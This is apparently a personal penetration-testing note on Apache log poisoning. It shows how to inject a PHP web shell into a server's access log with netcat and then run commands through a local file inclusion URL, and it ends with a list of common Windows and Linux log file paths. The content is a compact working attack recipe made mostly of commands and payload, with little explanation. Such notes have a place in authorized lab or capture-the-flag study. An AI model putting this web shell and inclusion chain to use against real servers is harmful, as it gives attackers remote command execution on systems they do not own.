 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Connect with nc and poison the log:

```bash
nc -nv $TARGET 80
```

```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

What the log file looks like:
![[Pasted image 20220506100915.png]]

```bash
http://$TARGET/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

Common log locations:
Windows xampp
`c:\xampp\apache\logs\access.log`

Linux locations
`/var/log/apache2/access.log`
`/var/log/apache/access.log`
`/var/log/apache/error.log`
`/var/log/apache2/access.log`
`/var/log/apache2/error.log`
`/var/log/nginx/access.log`
`/var/log/nginx/error.log`
`/var/log/vsftpd.log`
`/var/log/sshd.log`
`/var/log/mail`
`/var/log/httpd/error_log`
`/usr/local/apache/log/error_log`
`/usr/local/apache2/log/error_log`